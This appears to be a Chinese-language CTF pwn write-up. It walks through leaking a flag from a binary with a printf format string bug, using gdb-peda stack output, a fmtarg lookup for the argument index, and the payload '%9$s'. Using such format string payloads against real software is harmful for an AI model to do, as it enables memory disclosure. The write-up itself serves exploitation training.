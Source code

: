 

显然的格式化字符串漏洞

我们需要在`printf`函数处下断点

然后随便输入一些数字:

```c
[-------------------------------------code-------------------------------------]
   0x7ffff7a48e6c <__fprintf+172>:	
    call   0x7ffff7b18c80 <__stack_chk_fail>
   0x7ffff7a48e71:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x7ffff7a48e7b:	nop    DWORD PTR [rax+rax*1+0x0]
=> 0x7ffff7a48e80 <__printf>:	sub    rsp,0xd8
   0x7ffff7a48e87 <__printf+7>:	test   al,al
   0x7ffff7a48e89 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x7ffff7a48e8e <__printf+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7ffff7a48e93 <__printf+19>:	mov    QWORD PTR [rsp+0x38],rcx
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde08 --> 0x400890 (<main+234>:	mov    edi,0x4009b8)
0008| 0x7fffffffde10 --> 0x61000001 
0016| 0x7fffffffde18 --> 0x602cb0 ('a' <repeats 16 times>)
0024| 0x7fffffffde20 --> 0x602260 --> 0x0 
0032| 0x7fffffffde28 --> 0x7fffffffde30 ("flag{", '1' <repeats 12 times>, "}\n\377\377\377")
0040| 0x7fffffffde30 ("flag{", '1' <repeats 12 times>, "}\n\377\377\377")
0048| 0x7fffffffde38 ("111111111}\n\377\377\377")
0056| 0x7fffffffde40 --> 0xffffff0a7d31 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0x602cb0 'a' <repeats 16 times>) at printf.c:28
28	printf.c: No such file or directory.
```

这时候可以看到`flag`了，注意我们是在本地调试，调试的时候当然可以看到flag，一般的pwn题都是要远程连接的

如果我们要泄露`flag`的值，就需要构造`%n$s`这样的传进去。所以获取参数的位置很关键

```c
gdb-peda$ fmtarg 0x7fffffffde28
The index of format argument : 10 ("\%9$p")
```

通过`Pwngdb`就可以查看参数的位置了

这时候运行

```c
abc@ubuntu ~/Desktop/pwnEaxmple/zifuchuan
 % ./goodluck 
what's the flag
%9$s
You answered:
flag{111111111111}
���
But that was totally wrong lol get rekt
```

就得到了flag

(这里值得注意的就是，64位系统和32位系统传参是不一样的)







